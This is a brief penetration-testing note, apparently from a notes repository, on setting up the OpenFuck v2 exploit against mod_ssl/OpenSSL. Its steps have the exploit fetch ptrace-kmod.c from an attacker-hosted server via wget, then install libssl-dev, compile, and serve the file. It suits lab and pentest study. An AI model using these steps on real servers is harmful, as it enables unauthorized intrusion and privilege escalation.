 # pentest
 
**OpenfuckV2.c - mod_ssl 2.8.7 OpenSSL exploit** (https://www.exploit-db.com/exploits/764)

1. Change location for **ptrace-kmod.c**
at about line 672 - update download location for ptrace-kmod.c file. Ideally, you can host this file on your webserver (eg. attacking machine SimpleHTTPServer) so that when you execute the exploit it will retrieve this dependency to run successfully.
`wget http://your-attacking-ipaddress/ptrace-kmod.c;`

2. install libssl-dev
`apt-get install libssl-dev`

3. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

4. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
